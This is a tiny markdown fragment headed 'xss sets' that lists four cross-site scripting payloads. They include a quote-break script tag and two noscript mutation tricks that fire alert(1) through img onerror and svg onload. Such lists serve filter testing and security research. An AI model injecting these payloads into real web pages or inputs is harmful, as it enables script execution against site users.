# xss sets
```JavaScript
<script></script>
'"><script>alert(1)</script>
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
<noscript><p title="</noscript><svg/onload=alert(1)>">
```
